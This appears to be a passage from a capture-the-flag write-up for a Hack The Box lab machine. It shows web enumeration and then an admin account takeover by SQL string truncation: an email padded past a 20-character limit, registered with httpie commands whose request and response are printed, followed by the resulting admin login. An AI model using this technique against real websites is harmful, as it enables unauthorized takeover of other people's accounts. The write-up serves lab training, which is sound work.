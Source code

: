 #### 2.1. Web enum

1) Review of main page `http://10.10.10.176/`

- can register arbitrary account
- `http://10.10.10.176/contact.php` shows `admin@book.htb`
- `http://10.10.10.176/profile.php` shows current user role is `User`
- `http://10.10.10.176/collections.php` has PDF upload functionality


There is a hint in JS that "email should not be more than 20 characters".
Craft an email like this to abuse SQL string truncation.
```
# echo -n 'admin@book.htb      X' | wc -c
21
```

2) Register arbitrary account with admin privs (admin takeover):

```
# c=`http http://10.10.10.176/index.php -phH | grep -oE 'PHPSESSID=.*;'`
# http -f POST http://10.10.10.176/index.php Cookie:"$c" name=admin email="admin@book.htb       X" password=admin666 -v
POST /index.php HTTP/1.1
...

name=admin&email=admin%40book.htb++++++X&password=admin666

HTTP/1.1 302 Found
...
location: index.php
```

#### 2.2. Login as admin

```
Target: http://10.10.10.176/admin
User: admin@book.htb
Password: admin666
```
